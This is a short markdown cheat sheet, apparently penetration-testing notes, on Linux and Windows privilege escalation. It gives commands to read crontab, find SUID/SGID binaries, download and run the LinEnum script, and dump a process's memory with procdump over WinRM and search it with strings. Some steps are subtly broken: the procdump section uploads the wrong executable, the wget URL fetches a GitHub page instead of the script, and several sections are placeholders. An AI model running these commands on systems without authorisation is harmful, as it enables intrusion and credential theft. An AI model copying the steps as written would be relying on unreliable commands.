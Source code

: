 # Privilege Escalation

## Linux

### Manual

#### Crontab

``` sh
cat /etc/crontab
```

#### SUID/GUID

``` sh
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

### Scripts

#### LinEnum

``` sh
wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
./LinEnum.sh
```

## Windows

### Manual

### Dump Process (via WinRM)

#### procdump

Upload procdump (lookup & add steps)

``` sh
upload /path/to/strings64.exe
./procdump64.exe --accepteula
./procdump64.exe -ma <pid>
```
#### strings

Upload strings (lookup & add steps)

``` sh
upload /path/to/strings64.exe
cmd /c "strings64.exe --accepteula <dumpfile> > <output>"
findstr "<string>" <file>
```

### Scripts
